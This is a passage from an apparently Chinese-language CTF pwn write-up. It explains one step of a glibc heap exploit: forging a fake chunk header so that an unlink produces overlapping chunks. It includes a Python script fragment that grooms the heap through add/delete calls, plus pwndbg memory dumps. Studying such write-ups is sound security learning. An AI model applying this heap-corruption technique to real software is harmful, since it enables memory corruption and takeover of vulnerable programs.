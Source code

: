 ##### 2.2

在如下部分chunk(0x110)后面布置一个chunk用来实现unlink造成堆重叠。

```c
0x56299f4066d0      0x100               0x10                 Freed              0x110              0x60
```

接着将0x100的chunk从unsortedbin之中分割出来一部分(0x78+0x58+0x10)

【在上面的0x56299f4066d0这部分chunk中我们在步骤2.1中已经完成他的chunk size修改成了0x10所以分割unsortedbin时候可以正常分割0x10大小的chunk。】

unsortedbin 中还剩余 0x20 空间，与下一个 chunk 相差了 0x10 ，我们提前在这 0x10 中伪造 header ，当分配后修改的是 fake header prev_inuse 下一个 chunk 的 prev_inuse 被正常保留，可以用于 unlink 制造重叠空间

```Python
#0x110后面布置一个堆块，用于unlink造成堆重叠
for i in range(6):
    add(i,0x58)
add(12,0x58)#tail:unlink

for i in range(6):#清空堆指针列表，方便后续操作
    delete(i)

#将0x100切分分配出来0x78+0x58+0x10
for i in range(6):
    add(i,0x78)
add(8,0x78)
for i in range(6):
    delete(i)
for i in range(6):
    add(i,0x58)
add(9,0x58)
for i in range(6):
    delete(i)
add(10,0x10)
#gdb.attach(p)
```

2.2步骤完成后的chunk内容如下

```C
pwndbg> x/10gx 0x55d6f7eeb6b0
0x55d6f7eeb6b0:	0x0000000000000000	0x0000000000000021
0x55d6f7eeb6c0:	0x0000000000000000	0x0000000000000000
0x55d6f7eeb6d0:	0x0000000000000020	0x0000000000000011
0x55d6f7eeb6e0:	0x0000000000000110	0x0000000000000060
0x55d6f7eeb6f0:	0x0000000000000000	0x0000000000000000
```

在这部分chunk中prev_inuse以及prev_size都被保留了下来

```c
0x55d6f7eeb6e0:	0x0000000000000110	0x0000000000000060
```
